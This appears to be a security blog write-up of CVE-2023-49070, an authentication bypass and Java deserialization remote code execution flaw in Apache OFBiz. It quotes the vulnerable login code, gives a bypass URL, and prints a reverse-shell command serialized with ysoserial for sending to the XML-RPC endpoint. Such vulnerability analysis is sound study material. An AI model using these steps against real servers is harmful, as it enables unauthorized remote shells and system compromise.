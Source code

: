 ```yaml
---
title: CVE-2023-49070 (Apache OFBIZ)
description: >-
  Remote Code Execution in Apache OFBIZ
author: Cronus
date: 2024-04-12 22:47:00 
categories: [Security, 1-Day]
tags: [1-Day]
pin: false
---
```


### **1\. What is "EPR(Enterprise Resource Planning) System"?**

-   A system designed to help different departments within a company communicate with each other efficiently.
-   User can manage accounting, supply chain, project etc..

### **2\. What is "Apache OFBIZ(Open For Business)"?**

-   EPR system based on Java language, created by Apache company
-   Platforms utilized to manage and automate the various tasks performed by different departments

### **3\. About XML**

-   XML File : file written in Markup Language that can communicate with application
-   XML-RPC : A communication method that uses HTTP communication based on XML files to call remote methods.

e.g)

```xml
<?xml version="1.0"?>

<methodCall>

   <methodName>examples.getStateName</methodName>

   <params>

      <param>

         <value><int>41</int></value>

       </param>

    </params>

 </methodCall>
```

Above code send the value "41" (which type is int) to examples.getStateName method.

### **4\. CVE-2023-49070**

```
Target : Apache OFBIZ( <= 18.12.09)
Vulerability : Bypass authentication and Trigger RCE via Java deserialization vulnerability
CVE Score : 9.8
```

**\[ Vulnerable Code \]**

```java
// framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/LoginWorker.java
// Line: 437
    List<String> unpwErrMsgList = new LinkedList<String>();
    if (UtilValidate.isEmpty(username)) {
        unpwErrMsgList.add(UtilProperties.getMessage(resourceWebapp, "loginevents.username_was_empty_reenter", UtilHttp.getLocale(request)));
    }
    if (UtilValidate.isEmpty(password) && UtilValidate.isEmpty(token)) {
        unpwErrMsgList.add(UtilProperties.getMessage(resourceWebapp, "loginevents.password_was_empty_reenter", UtilHttp.getLocale(request)));
    }
    boolean requirePasswordChange = "Y".equals(request.getParameter("requirePasswordChange"));
    if (!unpwErrMsgList.isEmpty()) {
        request.setAttribute("_ERROR_MESSAGE_LIST_", unpwErrMsgList);
        return  requirePasswordChange ? "requirePasswordChange" : "error";
    }
```

1.  Check whether username and password parameter are empty
2.  Check  whether "requirePasswordChange" parameter is "Y"

**\[ Point \]**

This check is independent of the username and password validations. This mean, whether username and password is correct or not, you can bypass this login if you send only "requirePasswordChange" parameter as "Y".

**\[ Pratice \]**

![1.png](assets/img/CVE-2023-49070/1.png)

1.  When you connect to the /webtools/control/xmlprc endpoint, you will see the login page.  
    ( you are redirected to /webtools/control/checkLogin )
2.  Enter to https://localhost:8443/webtools/control/xmlprc;/?USERNAME=abc&PASSWORD=def&RequirePasswordChange=Y . Then you can check its response code is 200.  
    (This means the authentication logic was bypassed and the xmlrpc namespace page returned successfully. )

-   Verify normal communication with the server

![2.png](assets/img/CVE-2023-49070/2.png)

### **5\. How to trigger RCE ?**

1.  Serialize your password by using [yoserial](https://github.com/frohoff/ysoserial) tool
2.  Capture the packet and send POST method request to "/webtools/control/xmlrpc/?USERNAME=~&PASSWORD=~" 
3.  Modify Content-Type as "application/xml"
4.  Send body data in XML format.

**How to Serialize?**

```bash
[ Key Payload ] 
bash -c “bash -i >& /dev/tcp/<ipaddress>/<port> 0>&1”

[ Serialize Command ] 
java -jar --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED ysoserial.jar CommonsBeanutils1 'bash -c “bash -i >& /dev/tcp/<IP>/<PORT> 0>&1”' | base64 | tr -d "\n"/
```

**Request & Response**

![3.png](assets/img/CVE-2023-49070/3.png)